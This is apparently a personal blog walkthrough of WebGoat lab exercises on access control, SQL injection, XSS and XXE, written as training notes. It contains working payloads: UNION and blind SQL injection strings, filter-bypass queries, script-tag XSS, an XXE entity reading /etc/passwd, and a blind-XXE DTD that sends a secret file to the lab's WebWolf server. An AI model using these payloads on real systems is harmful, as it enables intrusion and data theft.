





# （二）A1-访问控制 & A3-注入 & A5-XXE

---
> [!note] 
> A2在上一篇，因为比较简单（） 
## 1 访问控制

### 1.1 Hijack session

> 参考：
> https://blog.csdn.net/seanyang_/article/details/134252287?spm=1001.2014.3001.5502
> 虽然不理解cookie后面居然可以这样加，但既然可以那就可以x

理解一下题目，大概是利用登录过的session来绕过密码验证登录
返回的session有规律
一直发的时候，前面在递增递增着会突然跳一位，可能是在模拟有实际用户登录成功了
这时候我们发现跳位后就可以用跳位的和上一次的时间戳登录了


### 1.2 不安全的直接对象引用

登录Tom

抓包


输入`role, userId`


下一题：在 RESTful API 设计中，访问用户个人资料的方式通常遵循一定的模式。根据你提供的信息，应用程序似乎允许用户查看自己的个人资料，但在某些情况下，可能需要明确指定要查看的用户资料，尤其是在存在角色和权限的情况下。以下是对如何通过直接对象引用来查看自己的个人资料的分析


上一题url是`/WebGoat/IDOR/profile`，Tom的userid是`2342384`
组合一下


放在框里，记得不要写第一个`/`
答案是`WebGoat/IDOR/profile/2342384`

找其他人的信息，id为`2342388`


这时候这单课程绿了，但是左边栏的课程没绿

然后要修改颜色
根据后文推测修改的应该用PUT

一开始用原装的头发过去，会报错`Unsupported Media Type`

一看到这个解释就明白肯定是json了，因为之前展示信息都是Json格式的
json要写全


还可以再改回来0v0
哦还要改权限为较低的


这样就都绿了！

### 1.3  缺少功能级别访问控制

隐藏菜单


顺序还要一致必须是`Users`，`Config`

下一题，提交一下看看

这个Url看起来和上面的很像
于是试一下`GET /WebGoat/access-control/users`

注意这里有一个问题

如果这样下面没有两行空格，就不能收到回复

想到能不能修改自己的权限为admin

报错搜一下，很明确的提示，应该是单个的对象


修改Tom的权限


卡住了，用原来的搜了一下，发现居然是添加

于是想到自己的username是testtest，添加了用户

OK


### 1.4 欺骗身份验证 Cookie

登陆一下试试


拿了好几次都是这个值，应该是固定的


使用这个作为cookie看一下


要偶数个字符，Tom后面补位00？
竟然还有一个用户案例，之前没看到转换一下看看
`NGE3YTZhNjk3OTY1NTc2ZjQxNzQ3NDYxNmY2NzYyNjU3Nw==` -> `4a7a6a697965576f417474616f67626577`
也就是`JzjiyeWoAttaogbew`
看起来前面就是不变的哇

原来是Base64解码弄错了
用kali输出还是太危险了，竟然是输入有换行符这合理吗


总之需要加密的应该是

OK， `NGE3YTZhNjk3OTY1NTc2ZjQxNzQ2ZDZmNTQ=`

## 2 SQL

旧版本：从(A1)的第二栏开始，前面的在文档（一）
新版本：在A3

### 1.1 联表查询

> [!note] 
> 补充：可以查看提示！
> 

直接增加select语句


union

`Dave' UNION ALL  SELECT userid, NULL AS first_name, user_name as last_name,  NULL AS cc_number, password AS cc_type, cookie, NULL AS login_count FROM user_system_data where '1'='1`


自己建表试了一下，只需要每个输出的属性类型对应上，各输出各的

难道userdata没有信息吗？


Union一般用途

假设您有两个表 `employees` 和 `contractors`，希望获取所有人姓名，可以使用 `UNION`

```sql
SELECT name FROM employees UNION SELECT name FROM contractors;
```

这个查询将返回所有员工和承包商的姓名，并且去除了重复的姓名。


新版本：
表格都和之前完全不一样了（）

这里也没有Dave啊？
不好意思题目没有变化，这是两个表（）


### 1.2 盲注

还要自己注册？？？


没有报错


有报错


只有这个地方可以注入

用这个发现每次都可以注册成功，正常只能注册一次的


推断出，应该是用户名会被拿去搜索是否已存在，如果返回为空就可以返回注册成功

也就是构造一个必为空的语句`and '1'='2`就会一直成功

可以通过这里进行布尔盲注，看我们的条件是对的还是错误的

利用length()判断出password长度，>3和<3都是错误的


直接用刚刚自己注册的Tom判断一下，返回是对的


搜了一下发现可能要用小写的tom登录

发现密码大于20


大于25的判断为否，也就是密码小于25


一个一个试，密码是23位的


**`substring(string, start, length)`**：

- `string`：要提取子字符串的原始字符串。
- `start`：提取开始的位置（从 1 开始计数）。SQL 数据库系统竟然不是0开始的！
- `length`：要提取的字符数。

试了一下


- **狙击手Sniper**：使用一个有效载荷集。将每个有效载荷依次放入每个有效载荷位置，测试一个位置时其他位置不改变。攻击中产生的请求总数是位置数量和有效载荷集中有效载荷数量的乘积。
- **攻城车Battering Ram**：使用一个有效载荷集。迭代有效载荷并将相同的有效载荷一次放置到所有定义的有效载荷位置。在请求中的多个位置插入相同的输入。
- **音叉Pitchfork**：使用多个有效载荷集。每个定义的位置都有不同的有效载荷集（最多 20 个）。该攻击<mark>同时迭代所有有效载荷集</mark>，因此它使用每个集的第一个有效载荷，然后使用每个集中的第二个有效载荷等等。
- **集束炸弹Cluster Bomb**：使用多个有效载荷集。每个定义的位置都有不同的有效载荷集（最多 20 个）。攻击<mark>依次迭代每个有效载荷集</mark>，以便测试有效载荷组合的所有排列。

那么这里应该使用集束炸弹，参数1 [1,23]，参数2 [32, 126] (ASCII码)



第二个先只写了字母数字



第一次攻击


成功了一部分填入表中

| 1   | 2   | 3   | 4   | 5   | 6   | 7   | 8   | 9   | 10  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
|     | h   | i   |     |     |     |     |     |     | c   |
| r   |     |     |     | o   | r   | t   |     |     | o   |
|     |     | y   |     |     |     |     |     |     |     |

但是也有失败的500，不太理解，难道是一次性发太多了？



就是一次性发太多了，修改一下线程



在这里写好后不需要点创建，开始攻击就会用新的了
攻击一次后这里会出现已存在的线程池，可以直接点这里使用了


填入表中

| 1   | 2   | 3   | 4   | 5   | 6   | 7   | 8   | 9   | 10  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| t   | h   | i   | s   | i   | s   | a   | s   | e   | c   |
| r   | e   | t   | f   | o   | r   | t   | o   | m   | o   |
| n   | l   | y   |     |     |     |     |     |     |     |

综合一下，密码就是 `this is a secret for tom only` => `thisisasecretfortomonly`

ok，但tom小写我是不理解的（
新版本题目一致
### 1.3 问答

这个问答翻译的有点怪
这个选项大概想表示是 普通语句获取值(value)，预编译语句获取参数(arg)




好好好新版本的攻击问答题又来了

和上次一样


> [!note] 
>  
可恶为什么没绿

难道是哪里跳过步骤了
幸好之前的repeat没删，改了一下端口号和cookie重发了，就绿了


### 1.4 开发语句填充

配置一个IDEA的环境，下载Oracle JDK或者直接在IDE里下载openjdk

- **Oracle JDK** 是一个商业版本，提供额外的工具和支持，适合企业用户。
- **OpenJDK** 是一个开源版本，适合开发者和开源项目，提供核心 Java 功能。

Java 程序需要合适的 JDBC 驱动程序来连接到 SQLite 数据库，手动下载 [SQLite JDBC Driver](https://github.com/xerial/sqlite-jdbc/releases) 的 `.jar` 文件
1. 右键点击项目名称，选择 "Open Module Settings"（或按 `F4`）。
2. 在 "Libraries" 选项卡中，点击 "+" 按钮，选择 "Java"。
3. 找到并选择下载的 SQLite JDBC `.jar` 文件，然后点击 "OK"。
4. 确保该库被添加到您的模块中。

就可以随便写一个试试了！

```java
import java.sql.Connection;  
import java.sql.DriverManager;  
import java.sql.PreparedStatement;  
import java.sql.ResultSet;  
import java.sql.Statement;  
  
public class DatabaseExample {  
    public static void main(String[] args) {  
        String DBURL = "jdbc:sqlite:test.db"; // SQLite 数据库 URL  
        Connection conn = null;  
        Statement stmt = null;  
        PreparedStatement pstmt = null;  
        ResultSet rs = null;  
  
        try {  
            // 建立数据库连接  
            conn = DriverManager.getConnection(DBURL);  
            System.out.println("成功连接到数据库");  
  
            // 创建表  
            stmt = conn.createStatement();  
            String createTableSQL = "CREATE TABLE IF NOT EXISTS users (" +  
                    "id INTEGER PRIMARY KEY AUTOINCREMENT," +  
                    "name TEXT NOT NULL," +  
                    "mail TEXT NOT NULL," +  
                    "status TEXT NOT NULL)";  
            stmt.execute(createTableSQL);  
            System.out.println("用户表已创建");  
  
            // 插入数据  
            String insertSQL = "INSERT INTO users (name, mail, status) VALUES (?, ?, ?)";  
            pstmt = conn.prepareStatement(insertSQL);  
            pstmt.setString(1, "Alice");  
            pstmt.setString(2, "alice@example.com");  
            pstmt.setString(3, "active");  
            pstmt.executeUpdate();  
  
            pstmt.setString(1, "Bob");  
            pstmt.setString(2, "bob@example.com");  
            pstmt.setString(3, "inactive");  
            pstmt.executeUpdate();  
            System.out.println("数据已插入");  
  
            // 查询数据  
            String querySQL = "SELECT * FROM users";  
            rs = stmt.executeQuery(querySQL);  
  
            // 处理查询结果  
            while (rs.next()) {  
                int id = rs.getInt("id");  
                String name = rs.getString("name");  
                String mail = rs.getString("mail");  
                String status = rs.getString("status");  
                System.out.println("ID: " + id + ", Name: " + name + ", Mail: " + mail + ", Status: " + status);  
            }  
        } catch (Exception e) {  
            e.printStackTrace();  
        } finally {  
            // 关闭资源  
            try {  
                if (rs != null) rs.close();  
                if (pstmt != null) pstmt.close();  
                if (stmt != null) stmt.close();  
                if (conn != null) conn.close();  
            } catch (Exception e) {  
                e.printStackTrace();  
            }  
        }  
    }  
}

```

填一下


下一题也一样只是全都自己写

（新版本吐槽，为什么当时没拷贝出来，还要重新打）

```java
try {
    Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
    PreparedStatement pstmt = conn.prepareStatement("select status from users where name= ?");
    pstmt.setString(1, "admin");
    pstmt.executeQuery();
} catch (Exception e) {
    System.out.println("Oops. Something went wrong!");
}
```

新版本有问题！

> [!error] 
> https://github.com/WebGoat/WebGoat/issues/1544
> 新版本也有问题！ 
> 错误没截图，大概是这样的
> 
> 很明显不对劲
> 网上这个的方案是重新构建，但是重新构建？我的记录没了！
> 如果重新拿现在的容器做image由很怪
> 总之试图在docker里解决
> 

终于搞出来了

搜了gpt，大概是没有javac，使用root登录，下载jdk
```shell
sudo docker exec -it -u root bd81a8dd1ea8 /bin/bash
apt-get update
apt-get install -y openjdk-21-jdk
```

安装jdk后发现似乎没有被使用，查询`echo $JAVA_HOME`发现在`/opt/java/openjdk`
按gpt搞了一个验证编译器的java程序
```shell
echo 'import javax.tools.ToolProvider;  
import javax.tools.JavaCompiler;  

public class CompilerTest {  
    public static void main(String[] args) {  
        JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();  
        if (compiler == null) {  
            System.out.println("Java Compiler is not available. Make sure you are running this with a JDK, not a JRE.");  
        } else {  
            System.out.println("Java Compiler is available.");  
        }  
    }  
}' > CompilerTest.java

javac CompilerTest.java
java CompilerTest
#输出Java Compiler is available.就对了
```

把新安装的`/usr/lib/jvm/java-21-openjdk-amd64`替换过去
```shell
mv /opt/java/openjdk /opt/java/openjdk.old
ln -s /usr/lib/jvm/java-21-openjdk-amd64 /opt/java/openjdk
```

之后重启一下docker
ok 没有哪个编译器Null了


### 1.5 输入验证-替换空格关键字注入

查看提示，无法使用空格，需要绕过空格
> 很好的参考
> https://www.cnblogs.com/Vinson404/p/7253255.html

用注释`/**/`替换空格：`Dave';Select/**/*/**/from/**/user_system_data/**/where/**/'1'='1`
用括号减少空格：`Dave';Select(*)from/**/user_system_data/**/where('1'='1')--`
from后面的表无法用括号，只能继续用注释


> [!question] 
> 这里产生了疑惑，之前参考的网站说这个是参数化查询所以不能带空格
> 按照之前的讲解，参数化查询就是使用PreparedStatement
> 但我测试PreparedStatement的代码发现这里能注入的方案，也无法查询
> 于是翻了一下jar包的源码
>  
> 
> 只是对输入进行了空格匹配emmmmm看起来和PreparedStatement没有关系
> 重新搜索了一下
> 
> 总之这里不是参数化查询

下面的课程是替换关键字，可以双写
`Dave';SESelectLECT(*)FRfromOM/**/user_system_data/**/where('1'='1')--`

可以直接看一下源码


除了双写想再用select比较困难，但可以换语句
`Dave';Table/**/user_system_data--`

### 1.6 order注入

题目要求查找webgoat-prd的ip地址
而列表里没有这个server

利用排序抓到包，随便改一下column的参数
报错中发现查询语句内容


`select id, hostname, ip, mac, status, description from servers where status <> 'out of order' order by true`
从数据库中选择所有状态不为 `'out of order'` 的记录，并尝试按 `true` 进行排序。

推测我们的目标server应该是`status='out of order'`的

> 这里不能用的参考但说不定以后有用：
> https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI/blob/master/1-11-order%2Climit%E5%92%8Cfrom%E5%90%8E%E7%9A%84%E6%B3%A8%E5%85%A5.md

试试if，发现不能用

报错也不行

这个参考都不能用

看了别人的，这个地方上一页其实讲了

但好像少写了END
`(CASE+WHEN+(true)+THEN+1+ELSE+2+end)`

`(CASE+WHEN+(substr('2222',1,1)='1')+THEN+1+ELSE+2+end)`应该输出按照Hostname排序的但是没有变化
很奇怪，最后还是把1和2改成列名了，必须通过修改

这样才对 `(CASE+WHEN+(substr('2222',1,1)='1')+THEN+id+ELSE+hostname+end)`
那就可以盲注了

string字符串是：`(select ip from servers where hostname=‘webgoat-prd’)
> [!warning] 
>  此处拷贝自网页的字符串好像有问题，这个引号是中文字符！！！！
>  Burpsuite拷贝过去后会吞掉中文字符，看起来就是引号消失了，自己补充一下引号其实会变成下面的状态
> (CASE+WHEN+(substr((select+ip+from+servers+where+hostname='webgoat-prd'),1,1)='1')+THEN+id+ELSE+hostname+end)
> 但是页面看不到乱码！！！！
>  

string字符串是：`(select ip from servers where hostname='webgoat-prd')
substr的第2个参数是递增整个字符串的，已知后面3段，我们大概要猜3个字符
作为ip地址的第一位大概率是`'1'`
`(CASE+WHEN+(substr((select+ip+from+servers+where+hostname='webgoat-prd'),1,1)='1')+THEN+id+ELSE+hostname+end)`


还要搞2位，分别为0~9
第2位是0

第3位是4


也就是 `104.130.219.202`，成功！

## 3 XSS

本来想放在上一章，dbq我不配，我不会做（）
### 3.1 简单XSS


直接确定就可以，jsessionid是一样的


只要随便输出点什么就行
`<script>alert('XSS')</script>`


### 3.2 DOM-Based XSS

似乎和路由有关系，看来其他题解了解有一个`GoatRouter.js`文件


题目是

测试代码？

我理解是要拼接一个url，来访问测试代码
不管如何先把js全下载下来看吧

> Chrome 插件：**Save All Resources**
> 插件 GitHub 地址：https://github.com/up209d/ResourcesSaverExt
> 插件 Google 地址：https://chrome.google.com/webstore/detail/save-all-resources/abpdnfjocnmdomablahdcfnoggeeiedb
> 参考：https://cloud.tencent.com/developer/article/1583727


看起来有了一点变化，但还是不理解在干嘛


弹了？目的是构造一个url让他弹出来？


`http://192.168.137.42:8080/WebGoat/start.mvc#test/param=%3Cscript%3Ealert(%27my%20javascript%20here%27)%3C%2Fscript%3E`
emmmmm答案是`start.mvc#test`
有点抽象，还是不理解

理解一下，
第一种在命令行输入弹框，直接弹框；
第二种在自己的页面上输出弹框，在提交的时候会被载入于是弹窗；
第三种js文件中存在参数可以被显示出来，于是在这种能被显示的参数中参杂弹框也可以弹框

下一题，似乎是以弹框类似的方式运行**webgoat.customjs.phoneHome()**


这样看好像成功了？
看了一下题解，就是这样的

### 3.3 问答题

新版本的攻击时间

但还是要看旧版本的题目


新版本发包


### 绕过BUG 答完题不绿

> [!error] 
> 为什么不绿！！
>  
> 旧版本很顺畅的就绿了（）
> 
> 新版本bug https://github.com/WebGoat/WebGoat/issues/1770
> 这合理吗？

进行了一些修改，于是出现了有趣的场景()


根据


确定有一个实体文件叫webgoat，但没搜到


也就是说

这个就是数据库本身，里面是很多数据库语句我以为只是记录

直接修改文件

可以查询到点东西

删掉过去的记录重启一下，重新答一下题再重启
发现为什么不能绿了，有隐藏课程（）

我们解决的列表里没有这两个隐藏的

于是

但是好像序列是默认增加的，删掉的也不会变小，可能有别的在控制，但是算了看起来能用

> [!note] 
> 正确做法应该是：
> 答完题马上重启docker，进去看到SOLVED少两行，马上填补两行
>  然后退出重启就ok了
>  不要乱加别的东西，加了新Id就回不去了

### 3.4 存储XSS

添加一条评论为 `<script>webgoat.customjs.phoneHome()</script>`即可


### 3.5 缓解XSS

学习一下jsp，可以配置一下环境

> https://owasp.org/www-project-java-encoder/
> 很好的参考们
> 安装tomcat：可以不配tomcat用户
> https://hackmd.io/@5U8hdDNWTB-ToZ5AwDuIjg/H1YSR-_g2?utm_source=preview-mode&utm_medium=rec
> IDEA新建web：
> https://blog.csdn.net/qq_44774215/article/details/132947942
> https://blog.csdn.net/xiaocui1995/article/details/124160068
> IDEA项目使用maven：
> https://cloud.baidu.com/article/2779364

最后效果


我的实际环境中测试可以使用的代码，试图用e:forHtml一直失败，后来搜了一个import的就ok了emmmmm
而且这个getParameter一直是红的。。。不理解web，配环境配了一天
就这样吧，以后总还有机会深入学习（躺
```jsp
<%@page contentType="text/html;charset=UTF-8" language="java"%>
<%@taglib prefix="encode" uri="owasp.encoder.jakarta"%>
<%@ page import="org.owasp.encoder.Encode" %>
<html>
<head>
    <title>Using GET and POST Method to Read Form Data</title>
</head>
<body>
<h1>Using POST Method to Read Form Data</h1>
<table>
    <tbody>
    <tr>
        <td><b>First Name:</b></td>
        <td><%= Encode.forHtml(request.getParameter("first_name")) %></td>
    </tr>
    <tr>
        <td><b>Last Name:</b></td>
        <td><%= Encode.forHtml(request.getParameter("last_name")) %></td>

    </tr>
    </tbody>
</table>
</body>
</html>
```


实际上能过的代码，新版本应该不使用这个导入了
```jsp
<%@taglib prefix="e" uri="https://www.owasp.org/index.php/OWASP_Java_Encoder_Project" %>
<html>
<head>
    <title>Using GET and POST Method to Read Form Data</title>
</head>
<body>
    <h1>Using POST Method to Read Form Data</h1>
    <table>
        <tbody>
            <tr>
                <td><b>First Name:</b></td>
                <td>${e:forHtml(param.first_name)}</td>
            </tr>
            <tr>
                <td><b>Last Name:</b></td>
                <td>${e:forHtml(param.last_name)}</td>
            </tr>
        </tbody>
    </table>
</body>
</html>
```

> 接下来是使用AntiSamy
> https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project

```java
import org.owasp.validator.html.*;
import MyCommentDAO;

public class AntiSamyController {
    public void saveNewComment(int threadID, int userID, String newComment){
        Policy policy = Policy.getInstance("antisamy-slashdot.xml");
        AntiSamy as = new AntiSamy();
        CleanResults cr = as.scan(newComment, policy);
        MyCommentDAO.addComment(threadID, userID, cr.getCleanHTML());
    }
}
```

这个比较好过

> [!error] 
> 又出现了，答完题没过
> 
> 按之前的操作搞一下
>  首先重启docker `sudo docker restart bd81a8dd1ea8`
>  之后登录进去 `sudo docker exec -it bd81a8dd1ea8 /bin/bash`
>  修改sql文件  `vim ~/.webgoat-2023.8/webgoat.script`
>  
>  
>  问题应该在这里，这节课应该是20，前面的64~69没有solved
>  添加后保存，然后重启docker
>  
>  OK！

路径注入因为比较简单，在上一篇

## 4 XXE

### 4.1 简单XXE

抓包一个普通的评论，可以看到内容是xml


大概是修改这个xml内容，让它把我们想看到的东西打印出来

DOCTYPE 声明`<!DOCTYPE author [     <!ENTITY js SYSTEM "file:///etc/passwd">]>`  
- **`<!DOCTYPE author [...]>`**：定义了一个名为 `author` 的文档类型。
- **`<!ENTITY js SYSTEM "file:///etc/passwd">`**：定义了一个外部实体 `js`，它指向服务器上的 `/etc/passwd` 文件。这个文件在类 Unix 系统中通常包含用户账户信息。

XML 元素使用`<author>&js;</author>   <comment>  <text>1111</text></comment>`  
- **`<author>&js;</author>`**：这里的 `&js;` 是对外部实体的引用。当 XML 解析器处理这个元素时，它会尝试加载 `file:///etc/passwd` 文件的内容，并将其插入到 `<author>` 元素中。
- **`<comment> <text>1111</text></comment>`**：这是一个普通的 XML 元素，包含一个子元素 `<text>`，其内容为 `1111`。这个部分与外部实体无关。

也就是DOCTYPE定义一个东西，&<u>name</u>;引用。理解一下

```xml
<?xml version="1.0"?>
<!DOCTYPE author [
  <!ENTITY js SYSTEM "file:///etc/passwd">]>
<comment>
  <text>&js;</text></comment>
```

这个是输出`/etc/passwd`文件，虽然不是题目但是直接过了


效果：


虽然这时候过了，但是不是题目要求的根目录，改了一下

```xml
<?xml version="1.0"?>
<!DOCTYPE mytest [
  <!ENTITY xxe SYSTEM "file:///">]>
<comment>
  <text>&xxe;</text></comment>
```


### 4.2 json改xml

抓包发的是


实际上xml也可以发


### 4.3 盲XXE

需要利用 **Blind XXE（盲目 XML External Entity Injection）** 攻击，从 WebGoat 服务器上传一个名为 `secret.txt` 的文件到你控制的 WebWolf 服务器
需要在 WebWolf 服务器上创建一个 DTD 文件，这个dtd文件能够上传`secret.txt`
然后构造一个 XML 文档，引用刚刚创建的 DTD 文件，发在评论里，让服务器解析时完成上传

这个dtd文件也应该是一个链接
肯定要先上传文件但，这个WebWolf有问题


搜了一下
https://github.com/WebGoat/WebGoat/issues/1473
有点像，但这个问题没被解决啊，只好自己看看了

定位到文件要被上传到webwolf.fileserver.location里

去查配置文件

是在/tmp下面，于是去docker里翻翻
发现/tmp/webwolf-fileserver下面竟然有一个我的用户名的文件，这怎么看都应该是个目录
删掉文件，改成目录后，就好了！


这个地方卡住了，一开始没理解
原来不是把secret.txt文件上传上去，是利用这个landing请求拼接出一个url
这条访问记录可以在webwolf后台直接看到
比如这样
dtd文件
```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY test SYSTEM "file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt">
<!ENTITY send SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt'>
```
xml如下
```xml
<?xml version="1.0"?>
<!DOCTYPE dtd SYSTEM "http://127.0.0.1:9090/WebWolf/files/testtest/attack.dtd">
<comment>
  <text>&send;</text></comment>
```
访问看到我直接卸载dtd里的url

评论需要随便写一条才会刷新


然后就是让%file拼接在url后面访问

```dtd
<!ENTITY % sendtest SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=%file'>  
```

- **问题**：在这个定义中，`%file` 是一个外部实体，它的内容是从文件中读取的。由于 DTD 的解析机制，`%file` 在这里不会被解析为文件内容，而是被视为一个未解析的实体引用。
- **结果**：当您尝试使用 `sendtest` 实体时，`%file` 不会被替换为 `secret.txt` 的内容，因此 URL 将不包含您期望的文件内容。
为了实现您的目标，您需要使用一个中间步骤来确保 `%file` 的内容在构造 URL 时被正确解析。

```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY test SYSTEM "file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt">
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt">
<!ENTITY % print "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=%file;'>">
```

%实体的调用顺序也不能改变
理解一下大概是先引用整个实体文件，有`%ls`才会看到dtd文件的访问记录
然后`%print`带过来`%send`的定义，最后才能使用`%send`

```xml
<!DOCTYPE author [
  <!ENTITY % ls SYSTEM "http://127.0.0.1:9090/WebWolf/files/testtest/attack.dtd">
%ls;
%print;
%send;
]>
<comment>
  <text>
end
</text></comment>
```

最后看到的


用url解码`WebGoat 8.0 rocks... (XJvTsSxmYh)`
再评论上去


---

这篇就到这里吧，下一篇再继续写  
## @PHOEXINA
